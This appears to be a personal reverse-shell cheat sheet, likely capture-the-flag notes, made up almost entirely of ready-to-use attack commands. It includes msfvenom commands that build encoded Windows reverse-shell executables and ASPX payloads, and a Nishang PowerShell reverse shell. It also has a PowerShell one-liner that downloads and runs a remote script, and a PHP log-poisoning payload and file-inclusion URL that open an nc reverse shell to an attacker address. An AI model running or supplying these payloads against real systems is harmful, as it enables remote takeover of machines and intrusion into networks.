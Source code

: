 msfvenom --platform Windows -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.8.102.117 LPORT=1234 -f exe -o shell.exe


msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.23 LPORT=1337 -o shell.aspx 


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy




##Nishang 

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.23 -Port 443

powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/Invoke-PowerShellTcp.ps1')


#### PHP Reverse Shell 

1. Log Poisoning
##
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 1337)>

##
source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.10.14.6%209001%20%3E/tmp/f